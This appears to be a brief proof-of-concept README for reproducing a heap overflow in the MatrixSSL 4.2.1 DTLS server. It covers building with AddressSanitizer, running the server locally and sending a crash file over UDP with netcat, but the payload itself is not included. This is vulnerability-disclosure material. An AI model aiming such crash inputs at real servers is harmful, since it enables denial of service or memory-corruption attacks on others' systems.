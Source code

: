 # Exploiting of heap overflow in dtls server

`How to:`
1. Download matrixssl 4.2.1-open version from: https://github.com/matrixssl/matrixssl
2. Install the dtls server: `make && cd apps/ssl && make && cd ../..`
3. Run `cc  -o apps/dtls/dtlsServer apps/dtls/dtlsServer.o apps/dtls/dtlsCommon.o matrixssl/libssl_s.a crypto/libcrypt_s.a core/libcore_s.a -fsanitize=address -Wl,--gc-sections -lpthread` for injecting ASAN.
4. Run dtls server: `./apps/dtls/dtlsServer -p 4444`
5. Exploiting server with: `netcat -u 127.0.0.1 4444 < crash_001_parseSSLHandshake_WRITE_256.raw`
![Exploit Result](dtls.png)
